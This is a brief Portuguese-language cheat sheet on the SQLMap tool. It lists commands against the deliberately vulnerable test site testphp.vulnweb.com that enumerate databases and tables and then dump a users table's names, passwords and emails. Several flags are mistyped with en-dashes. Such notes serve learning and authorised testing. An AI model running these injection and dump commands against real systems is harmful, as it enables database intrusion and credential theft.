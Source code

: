 # SQLMap

Site para testes http://testphp.vulnweb.com

$sqlmap --help

$sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs

$sqlmap -u  http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart –-tables

$sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users –-columns

$sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users -C name,pass,uname,email –-dump

## Fontes:

https://www.100security.com.br/sqlmap

https://github.com/sqlmapproject/sqlmap/wiki/Introduction
